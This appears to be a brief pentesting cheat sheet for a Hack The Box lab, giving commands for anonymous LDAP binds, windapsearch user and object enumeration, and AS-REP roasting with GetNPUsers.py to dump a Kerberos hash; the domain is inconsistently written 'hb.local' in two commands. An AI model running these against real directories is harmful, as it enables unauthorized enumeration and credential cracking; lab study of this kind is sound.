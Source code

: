 # LDAP



Check anonymous binds

> The flag -x is used to specify anonymous authentication
>
> The flag -b denotes the basedn to start from

```bash
ldapsearch -h 10.10.10.161 -p 389 -x -b "dc=htb,dc=local"
```

Query the domain

> The flag -U is used to enumerate all users

```bash
python windapsearch.py -d hb.local --dc-ip 10.10.10.161 -U
```

Enumerate all others objects in the domain using the objectClass=\*

```bash
python windapsearch.py -d hb.local --dc-ip 10.10.10.161 --custom "objectClass=*"
```

Request TGT ticket and dump the hash

```bash
GetNPUsers.py htb.local/svc-alfresco -dc-ip 10.10.10.161 -no-pass
```



